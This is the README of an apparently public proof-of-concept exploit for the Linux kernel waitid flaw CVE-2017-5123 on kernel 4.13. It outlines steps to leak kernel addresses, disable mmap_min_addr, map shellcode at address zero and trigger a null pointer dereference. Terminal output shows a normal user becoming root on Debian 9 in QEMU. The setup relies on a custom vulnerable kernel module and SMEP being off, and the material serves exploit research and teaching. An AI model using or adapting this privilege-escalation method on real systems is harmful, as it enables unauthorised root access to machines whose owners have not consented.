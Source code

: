 # Exploit for CVE-2017-5123

## Step
* Complile kernel with null pointer dereference module
* Run a VM( qemu) with costum kernel( no smep default)
* Found mmap_min_addr/dac_mmap_min_addr address by reading "/proc/kallsyms" or waitid infoleak
* Overwrite the mmap_min_addr/dac_mmap_min_addr by calling waitid( CVE-2017-5123), disable mmap_min_addr
* Map the shellcode to 0x00 and touch the kernel null point dereference to get privilege
* Run a shell with root

## Can & can't
Kernel version 4.13
Need:( "/proc/kallsyms" readable | vmlinux) & (kernel null pointer dereference) 
Bypass:mmap_min_addr, ksalr
Not bypass: SMEP
Exploit: kernel null pointer dereference
Result: get a root shell

## Source files
* [disable_map_min_addr.c](disable_map_min_addr.c) for step 3~4
* [null_poiter_exploit.c](null_poiter_exploit.c) for step 5-6
* [test.c](test.c) for step 1

## Result
My exploit success on Debian9/QEMU.
NOTE:QEMU without SMEP default, and my exploit can't bypass SMEP.T_T
```  
bins@debian:~$ id
uid=1000(bins) gid=1000(bins) groups=1000(bins),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),113(bluetooth),114(lpadmin),118(scanner)
bins@debian:~$ cat /proc/sys/vm/mmap_min_addr 
1024
bins@debian:~$ ./disable_map_min_addr 
[+] Leak size=144 bytes
[+] Leak point: 0x7fff62dbbb00
[+] Leak point: 0x7fff62dbbb08
[+] Leak point: 0x7fff62dbbb10
[+] Leak point: 0x7fff62dbbb18
[+] Leak point: 0x7fff62dbbb20
[+] Leak point: 0x7fff62dbbb28
[+] Leak point: 0x7fff62dbbb30
[+] Leak point: 0x7fff62dbbb38
[+] Leak point: 0x7fff62dbbb40
[+] Find startup_64...
[+] Found startup_64 at ffffffffa2a00000
[+] Got kernel base: 0xffffffffa2a00000
[+] Got mmap_min_addr: 0xffffffffa3b01de8
[+] Got dac_mmap_min_addr: 0xffffffffa388e810
[+] Overwriting map_min_addr...
[+] Overwriting dac_mmap_min_addr...
[+] map_min_addr disabled!
bins@debian:~$ cat /proc/sys/vm/mmap_min_addr 
0
bins@debian:~$ ./null_poiter_exploit 
[+] Find prepare_kernel_cred...
[+] Found prepare_kernel_cred at ffffffffa2a77300
[+] Find commit_creds...
[+] Found commit_creds at ffffffffa2a76f80
Got commit_creds:0xffffffffa2a76f80,prepare_kernel_cred0xffffffffa2a77300
[+] Try to allocat 0x00000000...
[+] Allocation success !
[+]Start touch kernel null point
[+] Root shell success !! :)
# id
uid=0(root) gid=0(root) groups=0(root)
# 
```  

## Other
All the source is modified from spender & @XeR_0x2A & @chaign_c & up201407890:  
[spender bypass kaslr poc](https://grsecurity.net/~spender/exploits/wait_for_kaslr_to_be_effective.c)  
[up201407890 disable selinux poc](http://seclists.org/oss-sec/2017/q4/134)  
[@XeR_0x2A & @chaign_c map shellcode to 0x00](https://www.exploit-db.com/exploits/43029/)
[vulnerability analysis in chinese](https://github.com/Bins94/Kernel_Anatomy/tree/master/kernel_4.13_waitid_poc)
